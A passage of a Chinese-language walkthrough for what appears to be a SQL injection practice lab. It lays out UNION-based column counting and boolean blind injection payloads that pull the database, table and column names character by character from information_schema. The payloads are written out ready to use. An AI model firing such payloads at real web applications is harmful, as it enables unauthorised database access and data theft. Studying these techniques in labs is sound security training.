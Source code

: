 
> 
<h3>3.4、第三步：判断字段数/回显位</h3>
?id=1') union select 1,2,3--+
回显正常

 

?id=1') union select 1,2,3,4--+
非正常回显

 
说明有3个字段


> 
<h3>3.5、第四步：暴库</h3>
?id=1') and (length(database()))&gt;10--+
非正常回显，说明条件错误

 

?id=1') and (length(database()))&gt;9--+
正常回显，说明条件正确

 说明数据库长度为9
<hr/>
?id=1') and ascii(substr(database(),1,1))&lt;100--+

依此类推出第一个字符是s
以此类推得到security


> 
<h3>3.6、第五步：爆表名</h3>
?id=1') and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))&lt;100--+
回显正常，说明第一个字母ASCII小于100

 

?id=1') and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))&gt;50--+
回显正常，说明第一个字母ASCII大于50

第一个字符ASCII在50-100之间
一个一个推出字符
再分别挨个推出表


<br/>  

> 
<h3>3.7、第六步：爆字段</h3>
?id=1') and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1)))&gt;50--+
回显正确，说明第一个字符的ASCII值大于50

 

?id=1') and (ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1)))&lt;100--+
回显正确，说明第一个字符的ASCII值小于100
